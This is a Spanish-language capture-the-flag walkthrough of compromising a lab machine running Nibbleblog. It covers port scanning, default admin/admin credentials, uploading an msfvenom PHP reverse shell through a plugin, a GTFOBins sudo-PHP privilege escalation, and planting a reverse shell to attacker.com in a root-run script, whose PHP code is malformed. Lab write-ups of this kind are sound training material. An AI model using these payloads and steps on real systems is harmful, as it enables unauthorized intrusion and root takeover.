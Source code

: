 
Hacemos un scaneo de puertos con [[00. Apuntes/01. Herramientas/NMAP|NMAP]]
`nmap -p- --open -sS --min-rate 5000 -Pn -n 172.17.0.2`

Encontramos el puerto 80 abierto, vamos a hacer el scaneo mas profundo
`nmap -p 80 -sSCV --min-rate 5000 -Pn -n 172.17.0.2`

Navegando en la IP lo unico que nos encontramos es la pagina por defecto de Apache2. Vamos a hacer Fuzzing con [[00. Apuntes/01. Herramientas/GOBUSTER|GOBUSTER]] para ver si encontramos algo. No encontramos nada.
Miramos el codigo fuente por si encontramos algo relevante, encontramos una posible ruta web.
![[Pasted image 20241214130625.png]]

Navegamos a la ruta y encontramos una pagina web
Encontramos lo siguiente
![[Pasted image 20241215134018.png]]

Podemos ver un enlace que redirige a `admin.php` al hecer click encontramos una pagina de login
![[Pasted image 20241215134146.png]]

Como vemos que es el area de administrador he probado con el usuario `admin` y como password `admin` hemos conseguido obtener acceso al area del administrador.
![[Pasted image 20241215134417.png]]

Hay un apartado para plugins en el veremos que pligins podemos instalar para venenficiarnos de el, hay ino que se llama `MyImages` que nos permite subir ficheros asi que le instalararemos e  intentaremos ingresar un payload de reverse shell en PHP
![[Pasted image 20241215135110.png]]

Creamos el payload con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
`msfvenom -p php/reverse_php LHOST=10.0.2.15 LPORT=444 raw > pwned.php`

Subimos el payload y hacemos Fuzzing con [[01. Other Notes/01. Hacking/Hacking Generico/Hacking Web/Fuzzing Web/Gobuster|Gobuster]] para ver en que ubicacion se guardan los archivos
`gobuster dir -u http://172.17.0.2/nibbleblog/content/private -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,py -k`
Hemos ido añadiendo directorio por directorio gasta llegar a `/nibbleblog/content/private/plugins/ ` en el cual hay hay una carpeta llamada `my_image`
![[Pasted image 20241215140225.png]]

Al entrar en ella podemos observar que el palyload que hemos subido se guarda como `image.php`
![[Pasted image 20241215140319.png]]

Nos pondremos en escucha con [[NETCAT]] y ejecutaremos el payload
` nc -lvnp 444`

Una vez obtenemos la shell tenemos que estabilizarla para poder trabajar agusto con ella.
Navegando a `/home` vemos que existe el usuario chocolate. Y ejecutando el comando `sudo -l` podemos ber que es capaz de ejecutar codico PHP, asi que buscaremos la forma de hacer la escalada de privilegios con PHP. 
Usaremos una escalada de privilegios de [[GTFOBINS]]
`sudo -u chocolate /usr/bin/php -r "system('$CMD');" bash`

El usuario root tine ejecutando un script .php en `/opt/script.php`
Lo modificaremos he introduciremos una reverse shell hacia nuestra maquina atacante
````php
<?php
	export RHOST=attacker.com
	export RPORT=12345
	php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
?>
````

En nuestra maquina atacante nos pondremos en escucha en el puerto mencionado en el script y ya obtendremos una shell como root.